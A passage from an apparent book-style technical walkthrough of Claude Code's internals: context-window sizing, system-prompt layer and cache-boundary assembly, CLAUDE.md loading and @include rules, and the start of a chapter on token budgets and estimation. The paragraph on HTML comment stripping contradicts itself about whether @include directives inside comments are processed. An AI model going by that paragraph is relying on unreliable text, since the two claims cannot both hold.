The `content` field holds the processed content after HTML comment stripping, frontmatter extraction, and optional truncation. The `rawContent` field preserves the original file content for accurate change detection. The `contentDiffersFromDisk` flag is set when the processed content differs from the raw on-disk content, enabling the system to detect when a CLAUDE.md has been modified without re-reading the file. The `globs` field, extracted from YAML frontmatter, scopes the instruction to specific file patterns, so a rule about TypeScript files does not pollute the prompt when the agent is working on a Markdown document. The `parent` field tracks the `@include` chain, enabling circular reference detection.

### Context-window configuration

The context window size is not a constant. It varies by model, feature gates, and environment overrides. The resolution chain in `src/utils/context.ts` handles this through a priority-ordered cascade:

```typescript
// src/utils/context.ts:L51-L98
export function getContextWindowForModel(
  model: string,
  betas?: string[],
): number {
  // Allow override via environment variable (ant-only)
  if (
    process.env.USER_TYPE === 'ant' &&
    process.env.CLAUDE_CODE_MAX_CONTEXT_TOKENS
  ) {
    const override = parseInt(process.env.CLAUDE_CODE_MAX_CONTEXT_TOKENS, 10)
    if (!isNaN(override) && override > 0) {
      return override
    }
  }

  // [1m] suffix — explicit client-side opt-in
  if (has1mContext(model)) {
    return 1_000_000
  }

  const cap = getModelCapability(model)
  if (cap?.max_input_tokens && cap.max_input_tokens >= 100_000) {
    if (
      cap.max_input_tokens > MODEL_CONTEXT_WINDOW_DEFAULT &&
      is1mContextDisabled()
    ) {
      return MODEL_CONTEXT_WINDOW_DEFAULT
    }
    return cap.max_input_tokens
  }

  if (betas?.includes(CONTEXT_1M_BETA_HEADER) && modelSupports1M(model)) {
    return 1_000_000
  }
  if (getSonnet1mExpTreatmentEnabled(model)) {
    return 1_000_000
  }
  if (process.env.USER_TYPE === 'ant') {
    const antModel = resolveAntModel(model)
    if (antModel?.contextWindow) {
      return antModel.contextWindow
    }
  }
  return MODEL_CONTEXT_WINDOW_DEFAULT
}
```

The default context window is 200k tokens, defined as `MODEL_CONTEXT_WINDOW_DEFAULT` at `src/utils/context.ts:L9`. Models with the `[1m]` suffix or certain beta flags can expand to 1M tokens. Internal Anthropic users can also set `CLAUDE_CODE_MAX_CONTEXT_TOKENS` to cap the effective window for local decisions like auto-compact while still using a 1M-capable endpoint. This override is useful for testing and for constraining costs during long sessions. The function `getModelMaxOutputTokens()` resolves the maximum output tokens per model tier, because the output token limit affects how the query loop decides when to request a continuation versus stopping.

## Control flow

### Prompt assembly layers

The system prompt is assembled in a strict layer order, where each layer adds a distinct category of instruction. The ordering is not arbitrary: it maximizes prompt-cache hits by placing stable content first and volatile content last. The following diagram shows how `getSystemPrompt()` in `src/constants/prompts.ts` builds the prompt array:

```mermaid
flowchart TD
    A[getSystemPrompt called] --> B{Simple mode?}
    B -->|Yes| C[Return minimal prompt]
    B -->|No| D[Load skillToolCommands, outputStyleConfig, envInfo]
    D --> E{Proactive mode?}
    E -->|Yes| F[Return proactive variant]
    E -->|No| G[Build static sections]
    G --> H[Intro section - identity and role]
    H --> I[System section - environment facts]
    I --> J[Doing tasks section - work guidelines]
    J --> K[Actions section - available operations]
    K --> L[Using tools section - tool usage rules]
    L --> M[Tone and style section - communication norms]
    M --> N[Output efficiency section - brevity guidelines]
    N --> O[Insert DYNAMIC_BOUNDARY marker]
    O --> P[Resolve dynamic sections via registry]
    P --> Q[session_guidance - per-session instructions]
    Q --> R[memory - CLAUDE.md files]
    R --> S[env_info - environment variables]
    S --> T[language / output_style - user preferences]
    T --> U[mcp_instructions - MCP server guidance]
    U --> V[scratchpad / frc / summarize - feature-specific]
    V --> W[token_budget / brief sections]
    W --> X[Return string array]
```

The static sections (H through N) are the same for every user in every session, which makes them ideal candidates for cross-user prompt caching. The dynamic sections (Q through W) vary by user, project, and session state, so they must be re-evaluated on each call. The boundary marker at step O is the dividing line: the API-side caching layer splits the array here, assigning `scope: 'global'` to the static prefix and `scope: 'session'` or no scope to the dynamic suffix.

### Prompt fragment sources

The system prompt is composed from a diverse set of fragment sources, each contributing a distinct category of instruction. The following class diagram shows the taxonomy of these sources and how they feed into the assembly pipeline:

```mermaid
classDiagram
    class PromptFragmentSource {
        <<interface>>
        +sectionKey: string
        +cacheScope: string
        +evaluate(): string|null
    }

    class StaticSection {
        +cacheScope: global
        +content: string
    }

    class DynamicSection {
        +cacheScope: session
        +condition: function
    }

    class UncachedSection {
        +cacheScope: none
        +reason: string
    }

    class MemorySource {
        +loadMemoryFiles()
        +hierarchy: Managed~User~Project~Local~AutoMem~TeamMem
    }

    class MCPSource {
        +mcpClients: MCPServerConnection[]
        +deltaEnabled: boolean
    }

    class HookSource {
        +getHooksSection()
        +hookType: user-prompt-submit
    }

    class ToolSchemaSource {
        +enabledTools: Set
        +getUsingYourToolsSection()
    }

    class EffortPlanSource {
        +token_budget: feature gate
        +brief: feature gate
        +numeric_length_anchors: ant-only
    }

    PromptFragmentSource <|-- StaticSection
    PromptFragmentSource <|-- DynamicSection
    DynamicSection <|-- UncachedSection
    DynamicSection <|-- MemorySource
    DynamicSection <|-- MCPSource
    StaticSection <|-- HookSource
    StaticSection <|-- ToolSchemaSource
    DynamicSection <|-- EffortPlanSource
```

Static sections like the hooks section and the tool schema section are embedded in the cacheable prefix because their content is stable within a session. Memory and MCP sources are dynamic because they vary per turn. The effort/plan source group is conditional: `token_budget` and `brief` sections are only included when the corresponding feature gate is enabled, and `numeric_length_anchors` is restricted to internal Anthropic users.

### Tool schema injection into the system prompt

Tool definitions are not injected into the system prompt as text. Instead, they are provided to the Anthropic API as structured `tools` parameters alongside the `system` parameter in each API call. However, the system prompt contains a section called "Using your tools" (produced by `getUsingYourToolsSection()` at `src/constants/prompts.ts:L569`) that provides behavioral instructions for how the model should use the available tools. This section receives the set of enabled tool names and adjusts its guidance accordingly.

The "Using your tools" section is static and sits before the dynamic boundary marker, making it cacheable across sessions. This is a deliberate design choice: the behavioral rules for tool usage (e.g., "prefer running multiple independent tool calls in the same block") are the same regardless of which specific tools are enabled. The tool names themselves are passed in the `tools` API parameter, not in the system prompt, so changes to the tool set do not invalidate the prompt cache.

The `enabledTools` set is constructed from the `tools` parameter passed to `getSystemPrompt()` at line 444, which contains only the tools that are currently available in the session (excluding deferred tools that have not yet been loaded via ToolSearch). This means the "Using your tools" section can conditionally include or exclude tool-specific behavioral guidance based on which tools are present, without rebuilding the entire prompt.

### Hooks as a prompt source

The system prompt includes a hooks section produced by `getHooksSection()` at `src/constants/prompts.ts:L127-L129`, which informs the model that users may configure shell commands (hooks) that execute in response to lifecycle events. This section is static and resides before the dynamic boundary marker, making it globally cacheable.

The hooks section instructs the model to treat feedback from hooks -- including the `<user-prompt-submit-hook>` tag -- as coming from the user. This is a critical behavioral directive: when a PreToolUse hook blocks a tool call, the model sees the hook's feedback message and must adjust its actions accordingly rather than re-attempting the same call. The section also advises the model to ask the user to check their hooks configuration if it is blocked and cannot determine an alternative approach.

Although hooks are defined in settings and execute at runtime (see Chapter 36 for the full hook schema and Chapter 37 for execution pipelines), the system prompt's hooks section is the mechanism by which the model learns about the hooks subsystem. Without this section, the model would not know how to interpret hook feedback messages that appear in tool results, leading to confusing behavior where the model might retry a blocked operation or ignore hook-provided guidance.

### Effort and plan mode modifications to the system prompt

The system prompt is not identical across all sessions. Several dynamic sections are gated by feature flags or runtime conditions that change the prompt based on the current operational mode:

**Token budget section**: When the `TOKEN_BUDGET` feature gate is enabled (checked via `feature('TOKEN_BUDGET')` at line 538), a `token_budget` section is injected that instructs the model to keep working until it approaches a user-specified token target. This section is cached unconditionally -- the phrasing "When the user specifies..." makes it a no-op when no budget is active. This design avoids cache busts: previously, this section was `DANGEROUS_uncached` because it toggled on `getCurrentTurnTokenBudget()`, which invalidated approximately 20K tokens of cached prompt per budget flip. The current design pays the token cost of a few inert sentences in exchange for preserving the cache across budget activations.

**Brief section**: When the `KAIROS` or `KAIROS_BRIEF` feature gate is enabled (line 552), a `brief` section is included that provides instructions for the brief generation subsystem. Like the token budget section, this is a conditional dynamic section that is only evaluated when the feature is active.

**Numeric length anchors**: For internal Anthropic users (`process.env.USER_TYPE === 'ant'`), a `numeric_length_anchors` section is injected at line 529 that provides explicit word-count targets for tool-call summaries (25 words) and final responses (100 words). Research shows this produces approximately a 1.2% output token reduction compared to qualitative instructions like "be concise", and the ant-only scope allows measurement of quality impact before a broader rollout.

**Plan mode**: When plan mode is active, the system prompt is not modified directly. Instead, plan mode operates through the permission system (see Chapter 32), which restricts the agent to read-only tool access. The model learns about plan mode through the permission-denial feedback loop rather than through explicit system prompt instructions, which means plan mode does not consume additional prompt tokens and does not invalidate the cache.

### CLAUDE.md loading hierarchy

The `getMemoryFiles()` function in `src/utils/claudemd.ts` loads instruction files in a strict priority order, from lowest to highest:

1. **Managed** (`/etc/claude-code/CLAUDE.md`) -- enterprise policy, always loaded, cannot be overridden
2. **User** (`~/.claude/CLAUDE.md`) -- private global instructions, applies to all projects
3. **Project** (`CLAUDE.md`, `.claude/CLAUDE.md`, `.claude/rules/*.md`) -- checked-in project instructions, discovered by traversing from CWD up to root
4. **Local** (`CLAUDE.local.md`) -- private project instructions, gitignored, not shared with team
5. **AutoMem** (MEMORY.md index) -- auto-memory entrypoint, if feature enabled
6. **TeamMem** -- shared team memory, if feature enabled

Files are loaded in reverse order of priority, meaning the model pays more attention to the latest-loaded (highest-priority) files. The discovery traversal walks from the current directory upward to root, so files closer to CWD are loaded later and take precedence. This is a deliberate design choice that reflects the intuition that directory-local instructions (e.g., a `.claude/CLAUDE.md` in `src/utils/`) should override project-root instructions when the agent is working in that directory.

```mermaid
flowchart BT
    subgraph "Priority (low to high)"
        A[Managed: /etc/claude-code/CLAUDE.md]
        B[User: ~/.claude/CLAUDE.md]
        C[Project Root: CLAUDE.md]
        D[Project .claude: .claude/CLAUDE.md]
        E[Rules: .claude/rules/*.md]
        F[Local: CLAUDE.local.md]
        G[AutoMem: MEMORY.md]
        H[TeamMem]
    end
    A --> B --> C --> D --> E --> F --> G --> H
    style A fill:#f9f,stroke:#333
    style H fill:#9f9,stroke:#333
```

```typescript
// src/utils/claudemd.ts:L89-L91
const MEMORY_INSTRUCTION_PROMPT =
  'Codebase and user instructions are shown below. Be sure to adhere to these instructions. IMPORTANT: These instructions OVERRIDE any default behavior and you MUST follow them exactly as written.'
```

This instruction preamble, combined with the late-loading priority, means that project-level CLAUDE.md files override user-level files, and directory-local rules override project-root rules. The `MEMORY_INSTRUCTION_PROMPT` string is inserted before the first memory file, signaling to the model that these instructions have elevated priority.

The loading order has a practical implication for team workflows. Consider a team where the user has a global `~/.claude/CLAUDE.md` that says "always use TypeScript strict mode", but the project's `CLAUDE.md` says "use JavaScript with CommonJS modules". Because the project file is loaded after the user file, the model will follow the project's instruction, not the user's global preference. This is the correct behavior: the project's coding standard takes precedence over an individual developer's preference. But it can be surprising if the developer does not realize that their global instructions are being overridden.

The discovery traversal walks from the current directory upward to root, so if the user is working in `/home/user/project/src/utils/`, the traversal will check for CLAUDE.md files in `src/utils/`, then `src/`, then the project root. This means a CLAUDE.md file in `src/utils/` will override a CLAUDE.md file in the project root when the agent is working in that directory. This is particularly useful for monorepo structures where different subdirectories have different coding standards or architectural patterns.

### The @include directive system

Memory files support an `@include` directive that allows one CLAUDE.md to pull in content from other files. This enables a team to maintain shared instruction fragments (e.g., coding standards, architecture guidelines) in separate files and reference them from project-level CLAUDE.md files without duplication. The system uses the marked lexer to parse markdown tokens and extract `@path` references from text nodes, skipping code blocks and HTML comments to avoid false matches (`src/utils/claudemd.ts:L451-L535`). Skipping code blocks is important because file paths inside code examples should not be interpreted as include directives -- they are part of the documentation, not references to real files.

Circular references are prevented by tracking processed paths in a set that is passed through the recursive `processMemoryFile()` calls. The recursion depth is capped at 5 (`src/utils/claudemd.ts:L537`), preventing an @include chain from consuming unbounded stack space. If the depth limit is exceeded, the include is silently skipped, and the containing file is loaded without the included content. The depth cap of 5 was chosen as a practical limit: most real-world include chains are 1-2 levels deep (a project CLAUDE.md includes a shared coding-standards file), and chains deeper than 5 almost always indicate a circular reference or an accidental include.

### The HTML comment stripping process

Before a CLAUDE.md file's content is included in the system prompt, the system strips HTML comments. This is a significant token savings for files that contain extensive authorial annotations (e.g., explanations of why a rule exists, or notes about when to update it). The stripping is done by the `processMemoryFile()` function, which uses a regex-based approach to remove `<!-- ... -->` blocks while preserving the surrounding content (`src/utils/claudemd.ts:L292-L334`).

The stripping process is careful not to remove comments that contain `@include` directives, because those directives must be processed even if they appear inside comments. This is a subtle edge case: a user might comment out an `@include` directive temporarily, and the system should respect that by not processing the included file. However, if the comment contains an `@include` that was intentionally placed there (e.g., as part of a template), the system should still process it. The current implementation errs on the side of stripping: comments are removed, and any `@include` directives within them are not processed. This means that commenting out an `@include` is an effective way to disable it.

### The cache boundary and prompt-cache optimization

The `SYSTEM_PROMPT_DYNAMIC_BOUNDARY` marker is the linchpin of cc's prompt-cache strategy. Sections before the boundary are static across sessions for the same user/organization and can be cached globally on the Anthropic API side. Sections after the boundary contain per-session data (memory files, MCP instructions, environment info) that changes between turns and must be re-evaluated.

When `shouldUseGlobalCacheScope()` returns true, the boundary marker is inserted into the prompt array. The API-side caching layer in `src/services/api/claude.ts` splits the system prompt at this boundary, assigning `scope: 'global'` to the static prefix and `scope: 'session'` or no scope to the dynamic suffix. The cost savings from this split are substantial: on a typical 200k-token context window, the static system prompt might be 5,000-10,000 tokens, and caching these across turns and users eliminates the input token cost for the cached portion. On a 1M-token context window, the savings are even more significant.

The cache boundary also affects how the system prompt is sent to the API. The `claude.ts` file joins the string array into a single string for the API call, inserting newlines between sections. When the boundary marker is present, the system splits the string at the marker and sends the static prefix as a separate cache-scoped block. This means the static content is cached independently of the dynamic content, and changes to the dynamic sections (e.g., loading a new CLAUDE.md file) do not invalidate the cache for the static sections. The cache lifetime on the Anthropic API is typically 5 minutes, so a user who makes multiple queries within 5 minutes will benefit from cached static content on every query.

### The simple mode variant

When the `CLAUDE_CODE_SIMPLE` environment variable is set, `getSystemPrompt()` returns a minimal prompt that contains only the most essential instructions. This variant is used for lightweight interactions where the full prompt assembly would be overkill, such as quick file edits or simple bash commands. The simple mode prompt skips all dynamic sections (memory files, MCP instructions, environment info) and includes only the core behavioral instructions. This reduces the token cost of the system prompt by approximately 80%, at the expense of losing the CLAUDE.md instruction system and MCP tool support.

The simple mode variant is also used as the prompt for subagents spawned via `AgentTool` when the `--agent` flag is used with a simple agent type. By reducing the system prompt size, the subagent has more context window available for the actual task, which can improve performance on focused tasks that do not need the full instruction set.

### The context-analysis layer

The `analyzeContextUsage()` function in `src/utils/analyzeContext.ts` provides visibility into how the context window is being used. It counts tokens across seven categories: system prompt, CLAUDE.md files, built-in tools, MCP tools, deferred tools, agents and skills, and messages. The results are displayed as a visual grid in the REPL's status line, giving the user a real-time view of where their context budget is being spent.

The token counting uses `countTokensWithFallback()`, which first tries the API-based `countMessagesTokensWithAPI()` and falls back to `countTokensViaHaikuFallback()` if the API is unavailable. This two-tier approach ensures that the context analysis is accurate when possible but always available, even in environments where the API is not reachable.

The `analyzeContextUsage()` function also builds a visual grid that shows the percentage of context consumed by each category. This grid is rendered in the REPL's status line when the user invokes the `/context` command, providing a breakdown like "System: 8% | CLAUDE.md: 12% | Tools: 15% | Messages: 65%". This information is valuable for debugging context-related issues: if the user sees that CLAUDE.md files are consuming 30% of the context window, they know to reduce the size of their instruction files. If tools are consuming 40%, they might want to enable tool search to defer some tool schemas.

### The section resolver and conditional evaluation

Dynamic sections of the system prompt are registered with a section resolver that determines which sections to include based on runtime conditions. The `systemPromptSection()` function wraps a section with a cache key and evaluation function, while `DANGEROUS_uncachedSystemPromptSection()` bypasses the cache entirely. The resolver evaluates each section's condition (e.g., "include the MCP instructions section only when MCP servers are connected") and produces the final ordered array of prompt sections.

This conditional evaluation is important for keeping the prompt lean. If no MCP servers are connected, the MCP instructions section is omitted entirely, saving hundreds of tokens. If the user has not set a custom language or output style, those sections are skipped. If fast mode is enabled, the token budget section includes a directive to be more aggressive about stopping early. Each section makes an independent decision about whether to include itself, and the resolver collects the results into a single array.

## Edge cases and failure modes

### ETH Zurich finding: more instructions can hurt performance

The HER cites a study from ETH Zurich (arXiv:2602.11988) that found context files tend to reduce task success rates while increasing inference cost by over 20%. This has a direct and counterintuitive implication for cc's CLAUDE.md system: verbose instruction files and detailed directory trees hurt rather than help. The more instructions you load, the more the model has to process before it can act, and the higher the chance that conflicting instructions confuse its behavior.

cc mitigates this through several mechanisms:

- A recommended maximum of 40,000 characters per memory file (`src/utils/claudemd.ts:L92`). Files exceeding this limit are not rejected, but the system logs a warning and the content is included in full, consuming a large portion of the dynamic prompt budget.
- MEMORY.md index truncation via `truncateEntrypointContent()` for AutoMem and TeamMem types (`src/utils/claudemd.ts:L383-L385`). This function caps the entrypoint content to keep it within budget, because the MEMORY.md index can grow unbounded as the agent accumulates memories.
- HTML comment stripping to remove authorial notes from the instruction payload (`src/utils/claudemd.ts:L292-L334`). Comments are useful for the file's author but waste tokens when served to the model.
- Frontmatter parsing that extracts glob patterns for conditional rules, so instructions only load when relevant (`src/utils/claudemd.ts:L254-L279`). A rule scoped to `*.tsx` files is not loaded when the agent is editing a Python file.

### The exclude-pattern system

CLAUDE.md files can also be excluded from loading via an exclude pattern system. The `isClaudeMdExcluded()` function checks whether a given CLAUDE.md path matches any of the exclude patterns configured in the project settings (`src/utils/claudemd.ts`). This is useful when a project has a CLAUDE.md file in a directory that should not be loaded (e.g., a vendored dependency that contains its own CLAUDE.md). Without the exclude system, the upward directory walk would discover and load these files, injecting instructions that are not relevant to the current project and potentially conflicting with the project's own instructions.

The exclude patterns follow the same glob syntax as the `.claude/rules/` paths globs, using the `ignore` npm package for matching. This consistency means users who are familiar with the conditional rule system already know how to use the exclude system.

### The frontmatter parsing and glob extraction

Files in `.claude/rules/` can include YAML frontmatter that specifies `paths:` globs. The frontmatter is parsed by `parseFrontmatter()` in `src/utils/frontmatterParser.ts` (370 lines), which extracts the YAML content between `---` delimiters and parses it into a structured object. The `globs` field from the frontmatter is then stored on the `MemoryFileInfo` object and used by `processConditionedMdRules()` to filter the rules at query time.

The frontmatter parser is deliberately simple: it does not support the full YAML specification, only the subset needed for the `paths:` field. This keeps the parser fast and reliable, avoiding the complexity and attack surface of a full YAML parser. The parser also handles edge cases like missing closing delimiters, empty frontmatter, and non-YAML content that looks like frontmatter.

### Nested worktree double-loading

When cc runs from a git worktree nested inside a main repo, the upward directory walk can pass through both the worktree root and the main repo root, causing the same CLAUDE.md to be loaded twice. The code detects this by comparing the git root with the canonical root and skips Project-type files from directories above the worktree but within the main repo (`src/utils/claudemd.ts:L868-L884`). This is a subtle edge case that only manifests when the user has entered a worktree via `EnterWorktreeTool`, but it would cause confusing duplicate instructions if not handled.

### External @include security

Files included via `@include` that live outside the original CWD require explicit user approval. The `includeExternal` flag is only set to true when the project config has `hasClaudeMdExternalIncludesApproved` set or when the caller forces it. A warning is shown when external includes are detected without approval (`src/utils/claudemd.ts:L1416-L1430`). This is a security surface: a malicious CLAUDE.md could include files from anywhere on the filesystem, potentially exfiltrating sensitive data through the model's context. The approval gate ensures that the user is aware of and consents to external includes.

### Conditional rules with glob patterns

Files in `.claude/rules/` can have frontmatter with `paths:` globs that scope them to specific files. These conditional rules are not loaded eagerly; instead, `processConditionedMdRules()` filters them at query time against the target path being operated on, using the `ignore` npm package for glob matching (`src/utils/claudemd.ts:L1354-L1397`). This means a rule file with `paths: ["src/**/*.ts"]` is only injected into the system prompt when the agent is reading or editing a TypeScript file in the `src/` directory. This keeps the prompt lean by only injecting relevant instructions.

### The memoization of getMemoryFiles

The `getMemoryFiles()` function is memoized to avoid re-reading the filesystem on every API call. The memoization key includes the CWD, the git root, and the feature gates that affect which files are loaded. When any of these change (e.g., the user changes directory with `cd`), the memoization cache is invalidated and the files are re-discovered. This is an important performance optimization because `getMemoryFiles()` involves multiple filesystem reads and markdown parsing, which would be prohibitively expensive to repeat on every turn.

However, the memoization also introduces a subtle consistency issue. If a CLAUDE.md file is modified while the agent is running (e.g., the user edits `CLAUDE.md` in another terminal), the memoized result will be stale until the cache is invalidated. cc handles this by checking the file modification time when it detects a change notification, but there is a window between the file modification and the cache invalidation where the agent operates with outdated instructions. In practice, this window is short (typically less than one turn), and the impact is minimal because the model's behavior is influenced by the full conversation history, not just the current CLAUDE.md content.

## Where cc diverges from the published pattern

HER Pattern 2 (Scoped Context Assembly) describes multi-level instruction loading as a general best practice. cc's implementation goes further in several ways:

1. **Cache-aware section ordering**: cc explicitly orders sections to maximize prompt-cache hits, placing static content before the boundary marker and dynamic content after. The HER pattern does not address API-level caching, which is a significant omission given that prompt caching can reduce input token costs by 90% or more on repeated queries.

2. **Conditional rule scoping**: The `.claude/rules/*.md` system with frontmatter `paths:` globs is more granular than the HER's description of scoped assembly. Rules can target specific file patterns, not directory levels. This means a project can have dozens of rule files, each scoped to a different file type or directory, without any single rule file consuming the entire prompt budget.

3. **Memory entrypoint truncation**: cc actively truncates MEMORY.md and team memory indexes to keep them within budget, a mechanism not described in the HER pattern. Without truncation, an agent that accumulates hundreds of memories over a long session would eventually overflow the dynamic prompt budget, pushing out other critical sections like MCP instructions.

4. **The ETH Zurich counter-evidence**: cc's implementation implicitly acknowledges that more context is not always better through its truncation and stripping mechanisms, even though the system still loads all discovered files by default. The HER pattern assumes that more instructions are better, but the empirical evidence suggests otherwise. cc's mitigation is partial -- it strips comments and truncates indexes, but it does not yet implement a relevance filter that would exclude entire files based on their applicability to the current task.

## Developer takeaways for building a long-running agent

1. **Make your prompt assembly a string array, not a string.** This enables section-level caching, conditional inclusion, and boundary management. A single monolithic string forces full re-evaluation on every API call, which wastes tokens on unchanged content and makes it impossible to cache static portions across users.

2. **Insert a cache boundary marker between static and dynamic content.** The cost savings from cross-turn and cross-user prompt caching are substantial. cc's boundary marker allows the API to cache the first N sections globally and only recompute the dynamic tail. Without this, every API call would pay full input token cost for the entire system prompt.

3. **Load instructions in reverse priority order.** Models attend more to later content in the prompt. If project-specific instructions should override global ones, load them last. cc's loading order (managed, user, project, local, auto-mem) ensures that the most specific and highest-priority instructions are the freshest in the model's context.

4. **Support conditional scoping for instruction files.** Not every rule applies to every file. Glob-scoped rules keep the prompt lean by only injecting relevant instructions. cc's `.claude/rules/*.md` system with frontmatter `paths:` globs is a model for how to implement this without a custom configuration file format.

5. **Truncate aggressively, but preserve the raw content on disk.** cc's `contentDiffersFromDisk` flag on `MemoryFileInfo` allows the system to strip HTML comments, remove frontmatter, and truncate indexes without losing the original file. This enables accurate change detection while keeping the prompt payload small. The model sees the processed content; the filesystem stores the raw content.

6. **Guard against instruction bloat with empirical evidence.** The ETH Zurich study demonstrates that verbose context files reduce success rates. Measure the impact of your instruction files, and default to minimal, targeted context rather than comprehensive documentation dumps. A 40,000-character CLAUDE.md file might feel thorough, but it is more likely to confuse the model than to help it.

7. **Handle nested worktree and external include edge cases explicitly.** Double-loading the same instructions wastes tokens and can confuse the model with apparent contradictions. External includes are a security surface that requires user approval. cc handles both cases explicitly, and any implementation that skips these guards will eventually encounter them in production use.
# Token Budgets, Effort, and Fast Mode

## Overview

Every agentic loop faces the same fundamental tension: let the model run long enough to finish the task, but not so long that it burns tokens in circles without making progress. cc addresses this with three interlocking mechanisms: a token budget tracker that detects diminishing returns and terminates stalled loops, a multi-tier token estimation pipeline that balances accuracy against latency and API cost, and an effort/fast-mode configuration layer that trades thoroughness for speed. Together, these form the cost-control backbone of the query loop, and they implement in practice many of the cost-control strategies described in the HER's §13 (Cost and Budgeting).

This chapter traces the token budget lifecycle from `BudgetTracker` in `src/query/tokenBudget.ts` through the estimation strategies in `src/services/tokenEstimation.ts` to the effort and fast-mode settings surfaced through `src/state/AppStateStore.ts`. We examine how cc detects when an agent loop has stopped making meaningful progress, how it counts tokens when the API's own counting endpoint is unavailable, and how the user-facing effort controls shape the model's behavior without changing the underlying budget thresholds.

## Data structures and contracts

### The BudgetTracker type

The `BudgetTracker` type carries the minimal state needed to detect whether an agent loop should continue or stop. It tracks continuation count, the delta in tokens since the last check, the total global turn tokens, and a start timestamp:

```typescript
// src/query/tokenBudget.ts:L6-L11
export type BudgetTracker = {
  continuationCount: number
  lastDeltaTokens: number
  lastGlobalTurnTokens: number
  startedAt: number
}
```

The tracker is created by `createBudgetTracker()` with all counters zeroed and `startedAt` set to `Date.now()`. It is a mutable accumulator: each call to `checkTokenBudget()` updates `continuationCount`, `lastDeltaTokens`, and `lastGlobalTurnTokens` in place. This mutability is intentional and important for performance: creating a new tracker object on every iteration of the query loop would generate unnecessary garbage collection pressure. The tracker's state is owned by the query loop and reset at the start of each user prompt.

The four fields serve distinct roles in the diminishing-returns detector. The `continuationCount` tracks how many times the loop has continued past a budget check. The `lastDeltaTokens` records the token delta from the most recent check, enabling comparison with the current delta to detect when progress is slowing. The `lastGlobalTurnTokens` stores the cumulative token count at the last check, from which the current delta is computed. The `startedAt` timestamp enables the `StopDecision` to report total duration in milliseconds, which is useful for telemetry and debugging.

### The TokenBudgetDecision union

The budget check returns a discriminated union with two variants. A `ContinueDecision` means the loop should continue, and it carries a nudge message encouraging the model to wrap up:

```typescript
// src/query/tokenBudget.ts:L22-L29
type ContinueDecision = {
  action: 'continue'
  nudgeMessage: string
  continuationCount: number
  pct: number
  turnTokens: number
  budget: number
}
```

The `nudgeMessage` is generated by `getBudgetContinuationMessage()` (imported from `src/utils/tokenBudget.js`), which tells the model what percentage of the budget has been consumed and encourages it to produce a final summary. This is a soft signal: the model can choose to ignore it and continue working, but in practice the nudge is effective at getting the model to transition from exploration to synthesis.

A `StopDecision` means the loop should terminate, and it includes an optional completion event with detailed diagnostics:

```typescript
// src/query/tokenBudget.ts:L31-L43
type StopDecision = {
  action: 'stop'
  completionEvent: {
    continuationCount: number
    pct: number
    turnTokens: number
    budget: number
    diminishingReturns: boolean
    durationMs: number
  } | null
}

export type TokenBudgetDecision = ContinueDecision | StopDecision
```

The `completionEvent` is nullable because some stop decisions carry no diagnostic data (e.g., when the function is called for a subagent). When present, the event records whether the stop was due to budget exhaustion, diminishing returns, or a subagent context, along with timing data. The `durationMs` field is computed as `Date.now() - tracker.startedAt`, giving the total wall-clock time from the first budget check to the stop decision.

### The effort and fast-mode fields on AppState

Two fields on `AppState` control how aggressively the agent pursues its task:

```typescript
// src/state/AppStateStore.ts:L423-L427
fastMode?: boolean
effortValue?: EffortValue
```

`fastMode` is a boolean toggle that, when set, instructs the model to prioritize speed over thoroughness. When fast mode is active, the system prompt assembly in `src/constants/prompts.ts` injects a directive telling the model to make shorter responses, skip unnecessary explorations, and prioritize the most direct path to the answer. This does not change the budget thresholds or token counting logic; it shapes the model's behavior so it tends to consume fewer tokens per turn and reaches completion faster.

`effortValue` is imported from `src/utils/effort.ts` and provides a finer-grained control over the agent's diligence level. It maps to different levels of thoroughness in the model's behavior, allowing users to trade off between depth of analysis and speed of execution. Both fields are initialized to `undefined` and `false` respectively in `getDefaultAppState()` (`src/state/AppStateStore.ts:L565-L567`), meaning the default behavior is full effort at normal speed.

The `AppState` type itself is large, with over 50 fields covering everything from bridge connection state to team context to plugin installation status. But for the token budget system, the relevant fields are `fastMode`, `effortValue`, and the `toolPermissionContext` which determines the permission mode (and thus whether the agent can proceed without user interaction, which affects how quickly it consumes tokens).

## Control flow

### The checkTokenBudget decision loop

The `checkTokenBudget()` function is called on each iteration of the query loop. It receives the tracker, an optional agent ID, a nullable budget, and the current global turn token count. Its logic follows a strict decision tree that prioritizes early exit for subagents and budgetless contexts:

```mermaid
flowchart TD
    A[checkTokenBudget called] --> B{Subagent or no budget?}
    B -->|Yes| C[Return stop with null event]
    B -->|No| D[Calculate pct = turnTokens / budget]
    D --> E[Calculate delta = globalTurnTokens - lastGlobalTurnTokens]
    E --> F{Diminishing returns?}
    F -->|Yes| G[Return stop with diminishingReturns=true]
    F -->|No| H{turnTokens less than 90% budget?}
    H -->|Yes| I[Increment continuationCount, update tracker, return continue with nudge]
    H -->|No| J{continuationCount greater than 0?}
    J -->|Yes| K[Return stop with completionEvent]
    J -->|No| L[Return stop with null event]
```

The two key thresholds are constants at the top of the file, chosen to balance between giving the model enough runway to complete its task and preventing runaway token consumption:

```typescript
// src/query/tokenBudget.ts:L1-L11
import { getBudgetContinuationMessage } from '../utils/tokenBudget.js'

const COMPLETION_THRESHOLD = 0.9
const DIMINISHING_THRESHOLD = 500

export type BudgetTracker = {
  continuationCount: number
  lastDeltaTokens: number
  lastGlobalTurnTokens: number
  startedAt: number
}
```

The `COMPLETION_THRESHOLD` of 0.9 means the model receives continuation nudges when it has consumed less than 90% of its budget. Once it crosses 90%, the next budget check will return a stop decision (assuming the continuation count is greater than zero, meaning the model has had at least one chance to wrap up). The remaining 10% of the budget is typically enough for a final summary or handoff message, but not enough for a full additional tool-use iteration.

The `DIMINISHING_THRESHOLD` of 500 tokens is the minimum progress threshold. If the model has been running for at least 3 continuations and the token delta in each of the last two checks was below 500 tokens, the system concludes that the model is making progress so slowly that continued iteration is unlikely to produce value. This is a heuristic, but it is effective in practice: a model that is only producing 200 tokens of new content per turn is typically re-reading existing context or repeating earlier analysis rather than making forward progress.

### The token estimation pipeline

Token counting is not a single operation. cc uses a tiered pipeline that trades accuracy for latency, ensuring that the system always has a token count available even when the API is unreachable:

```mermaid
flowchart LR
    A[Token count needed] --> B{API countTokens available?}
    B -->|Yes| C[countTokensWithAPI - exact count via Anthropic API]
    B -->|No| D{Bedrock provider?}
    D -->|Yes| E[countTokensWithBedrock - exact count via AWS SDK]
    D -->|No| F[roughTokenCountEstimation - bytes divided by 4 heuristic]
    C --> G[Return token count]
    E --> G
    F --> G
```

The pipeline has three tiers, each with different accuracy, latency, and availability characteristics:

